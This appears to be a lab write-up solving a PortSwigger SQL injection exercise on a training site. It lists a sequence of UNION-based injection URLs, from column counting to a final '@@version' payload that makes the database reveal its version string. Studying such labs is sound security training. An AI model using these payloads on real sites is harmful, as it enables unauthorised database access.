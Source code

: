 
# 4 - SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------
/filter?category=Gifts'+order+by+1--+
---------------------------------------------

/filter?category=Gifts'+union+select NULL,NULL--+
---------------------------------------------
/filter?category=Gifts'+union+select 'A',NULL--+
---------------------------------------------
/filter?category=Gifts'+union+select @@version,NULL--+

``` 

![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/1.png)
